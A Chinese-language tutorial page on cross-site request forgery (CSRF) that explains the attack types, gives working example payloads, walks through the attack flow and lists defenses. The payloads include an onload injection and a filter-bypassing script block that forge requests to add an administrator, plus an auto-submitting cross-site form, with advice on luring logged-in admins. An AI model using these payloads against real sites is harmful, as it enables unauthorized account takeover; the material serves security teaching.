

CSRF
================================

简介
--------------------------------
 | CSRF（Cross-site request forgery）跨站请求伪造，也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。

 ::

			CSRF漏洞一般分为站外和站内两种类型。
			CSRF站外类型的漏洞本质上就是传统意义上的外部提交数据问题。通常程序员会考虑给一些留言或者评论的表单
		加上水印以防止SPAM问题（这里，SPAM可以简单的理解为垃圾留言、垃圾评论，或者是带有站外链接的恶意回复），
		但是有时为了提高用户的体验性，可能没有对一些操作做任何限制，所以攻击者可以事先预测并设置请求的参数，在
		站外的Web页面里编写脚本伪造文件请求，或者和自动提交的表单一起使用来实现GET、POST请求，当用户在会话状态
		下点击链接访问站外Web页面，客户端就被强迫发起请求。
			CSRF站内类型的漏洞在一定程度上是由于程序员滥用类变量造成的。在一些敏感的操作中（如修改密码、添加用
		户等），本来要求用户从表单提交发起请求传递参数给程序，但是由于使用$_REQUEST或$_GET变量造成的。在一些敏感的
		操作中（如修改密码、添加用户等），本来要求用户从表单提交发起POST请求传递参数给程序，但是由于使用了_REQ
		UEST等变量，程序除支持接收POST请求传递的参数外也支持接收GET请求传递的参数，这样就会为攻击者使用CSRF攻击
		创造条件。一般攻击者只要把预测的请求参数放在站内一个贴子或者留言的图片链接里，受害者浏览了这样的页面就
		会被强迫发起这些请求。


利用方式
--------------------------------

伪造请求  使用$_REQUEST或$_GET
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 首先我们要找找该网站使用的程序是不是在网上能找到源码，如果能找到源码的话，就去分析后台管理员更改密码或者增加管理员的页面，然后分析管理员使用的是不是$_REQUEST接收参数，如果是的话，我们使用该XSS漏洞构造一个请求，比如前台发表留言中可以使用HTML代码，那么我们就嵌入一个IMG元素：
 | ```` 
 | 当管理员登录管理后台后看到包含img的页面的时候，就伪造了一个增加后台管理员的请求，而该请求是由管理员发出的，所以顺利的增加了一个新的管理员。

 | 如果是可视文本编辑器，可以尝试使用输入：
 | ``http://www.123.com/xxx.jpg" οnlοad="window.open('/admin/admin_add.asp?name=xxx&psd=yyy')``
 | 这样最终会构造出：
 | ````

伪造请求  使用$_POST
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 当后台接收增加管理员或更改管理密码的变量时使用的是$_POST方式，那么第一种方法无效，我们视情况而定，如果没有过滤<script>，我们可以通过ajax方式来伪造请求，如：

 ::

		< sc /* xss */ ript >
		var  aj  =   new  ActiveXObject( " MSXML2.XMLHTTP.3.0 " );
		aj.open( " POST " ,  " /admin/admin_add.asp " ,  false );
		var  postdata  =   ' name=xxx&psd=yyy ' ;
		aj.setRequestHeader( " Content-Type " , " application/x-www-form-urlencoded " ); 
		aj.send(postdata);
		< / scr / * xss * / ipt>
		注：/*xss*/是HTML注释，用来绕过简单的对script代码块的过滤。 

跨站伪造请求 使用$_GET 或 $_REQUEST
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 与第一种伪造请求的方式相似，但是第一种伪造请求是利用站内的xss漏洞进行的，而跨站伪造请求，是站外发起的，比如我在我的博客的首页放了这样一个图片
 | ````
 | 然后我跑到dvbbs上发帖子，“勾引”动网论坛的管理员来我的博客，如果动网论坛的管理员已经登录了他的管理后台，然后使用共享进程的浏览器（目前基于ie内核的myie,maxton等等还有firefox都是共享进程的）来访问我的博客，那么他的后台就会被加入一个用户。 

跨站伪造请求 使用$_POST（0day）
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | 如果入侵目标的管理后台使用的是$_POST方式来接受变量，那么我们无法在我们的网站跨站使用ajax的post方式提交数据过去，因为ajax是无法跨域的。
 | 但是我们可以在我们的网站放一个form，里面填写好数据，form的action为要利用的有漏洞的页面，然后当有人打开该页面的时候，我们就用js控制该form进行submit，ajax虽然不能跨域，但向域之外的地址提交form总是可以的。

 ::
 
		<form action="http://www.***.com/transfer.php" method="post" id="forms">
			<input type="text" name="username" value="" />
			<input type="password" name="pwd" value="" />
			<input type="submit" value="提交"/>
		</form>
		<script>
		forms.submit();
		</script>

 | 总之，第3，4种方法成功几率要小一些，因为我们要想办法让已经登录自身后台的管理员，使用共享session的浏览器访问我们的伪造请求的页面，有一点社会工程学的技术含量。 
 
攻击原理及过程
--------------------------------

	|csrf|

- 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
- 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
- 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
- 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
- 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

防御
--------------------------------
- 通过CSRF-token或者验证码来检测用户提交
- 验证Referer/Content-Type
- 对于用户修改删除等操作最好都使用POST操作
- 避免全站通用的cookie，严格设置cookie的域


参考链接
--------------------------------

- `demo <https://www.github.com/jrozner/csrf-demo>`_
- `Wiping Out CSRF <https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f>`_
- `Neat tricks to bypass CSRF protection <https://www.slideshare.net/0ang3el/neat-tricks-to-bypass-csrfprotection>`_

